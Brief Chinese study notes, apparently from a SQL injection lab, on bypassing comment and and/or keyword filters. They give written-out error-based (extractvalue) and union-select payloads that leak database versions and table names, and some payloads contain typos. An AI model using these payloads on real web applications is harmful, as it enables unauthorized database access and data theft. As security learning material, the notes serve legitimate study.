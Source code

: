 #SQL注入
##绕过注释符过滤
###注入过程
1、注入语句：?id = ' " %23 a <br>
2、结果报错存在注入，但注释符失效，这时无法像以前继续注入语句<br>
3、构建新的语句：select *from xx where id ='语句'='语句' limit 0,1  未报错继续构造<br>
4、?id=1' or (extractvalue(1,concat(07xe,version()))) or '   得到版本信息<br>
5、继续构造?id=1' or (extractvalue(1,concat(07xe,(select table_name from information_schema.table where table_schema =database() limit 0,1)))) or '<br>
###一些小知识点
table_schema:常用的数据库，即：当前数据库
extractvalue()：查找字符串
##绕过and—or字符过滤
###union代替order by
?id=1' union select 1,2,'此时表示三个字段，以此来试数据库有几个字段<br>
?id=-1' union select 1,2,'实现2 的回显然后开始查询数据库，
构造上一条相似的语句，以上是在无法使用 order by 时的解决方法。<br>
###关键点
相似的构造语句?id=1' order by 1 %23,报错无法语句中不能出现or或者and，这时构造?id=-1' || 1 #  用大小写或者符号代替<br>
?id=-1' || (extractvalue(1,concat(0x7e,version()))) %23,然后构造相似的语句。
